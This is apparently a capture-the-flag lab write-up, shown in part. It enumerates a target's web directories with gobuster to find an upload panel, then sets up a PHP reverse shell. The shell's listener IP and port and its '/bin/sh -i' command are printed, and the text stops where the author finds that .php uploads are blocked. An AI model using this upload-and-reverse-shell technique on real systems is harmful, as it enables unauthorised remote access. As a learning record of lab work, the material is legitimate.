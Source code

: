 
## Directory Enumeration
```sh
└─$ gobuster dir -u http://10.10.164.87/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.164.87/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.164.87/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.164.87/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.164.87/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.164.87/panel/]
Progress: 9813 / 87665 (11.19%)[ERROR] Get "http://10.10.164.87/0312": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 18761 / 87665 (21.40%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 18766 / 87665 (21.41%)
===============================================================
Finished
===============================================================
```
> ### Answer:`/panel/`

- If we search this directory we will find in the website there is an upload option
- and there is a upload directory as well.
- so it can be cleared that all the uploads will be store in the uploads directory
- we can check a `php reverse shell` 

## PrivEsc

- Copy the reverse shell for php from github and create a file reverse_shell.php
- then change the ip and port for the listener
```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.17.88.30';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;


```
- Upload the file to the hidden directory upload parameter
- And after that turn on the `nc listener`
- It seems that .php extention is not working
- From some google searching I found an article
